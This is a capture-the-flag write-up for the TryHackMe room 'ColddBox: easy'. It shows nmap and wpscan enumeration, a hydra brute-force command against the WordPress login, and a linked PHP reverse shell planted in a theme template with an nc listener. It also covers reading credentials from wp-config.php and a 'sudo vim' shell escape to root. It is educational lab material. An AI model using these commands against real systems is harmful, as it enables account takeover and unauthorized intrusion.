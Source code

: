 ```yaml
---
title: "TryHackMe - ColddBox: easy"
author: Nasrallah
description: ""
date: 2022-10-03 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, hydra, bruteforce, sudo]
img_path: /assets/img/tryhackme/colddbox
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [ColddBox: easy](https://tryhackme.com/room/colddboxeasy) from [TryHackMe](https://tryhackme.com). We find a webserver running wordpress, we scan it with wpscan and find usernames that we user to brute force the login page and find a password. We easily get a reverse shell after that. Once we're in, we find a password in a config file giving access to a user that has the ability to run some programs as root, we exploit that to get elevated privileges.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.238.77
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
```

We have port 80 open running an Apache web server  and wordpress 4.1.31.

### WPScan

Let's run `wpscan` and see what we can find.

```bash
wpscan --url http://10.10.238.77 -e vp,vt,u
```

 - -e: enumerate - vp: vulnerable plugins | vt: vulnerable themes | u: usernames

![](1.png)

The scan revealed 3 usernames, let's put them in a file and brute force the login for wordpress.

```bash
hydra -L usernames.lst -P /usr/share/wordlists/rockyou.txt 10.10.238.77 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"

```

![](2.png)

We found the password of user `c0ldd`. Let's login.

![](3.png)

## **Foothold**

Following the steps described in this [article](https://www.hackingarticles.in/wordpress-reverse-shell/), let's get a reverse shell.

Go to `Appearance` -> `Editor` and select the 404 Template

Replace the php code with this [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and change the ip to your tun0 ip. Then click `Update File`. 

![](4.png)

Now setup a listener with `nc -lvnp 1234` and visit this page `http://{target_IP}/wp-content/themes/twentyfifteen/404.php`

![](5.png)

## **Privilege Escalation**

Let's check the `wp-config.php` file of wordpress since it usually hold some credentials.

![](6.png)

We found the password of `c0ldd`. Let's switch to that user with `su c0ldd`.

Let's check our privileges with `sudo -l`

```terminal
c0ldd@ColddBox-Easy:/var/www/html$ sudo -l
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:/var/www/html$ 

```

We can `vim`, `ftp` and `chmod` as root. Let's go check [GTFOBins](https://gtfobins.github.io/gtfobins).

### Vim

![](7.png)

### FTP

![](8.png)

### chmod

![](9.png)

Let's run the vim command and get root.

```bash
sudo vim -c ':!/bin/sh'
```

![](10.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
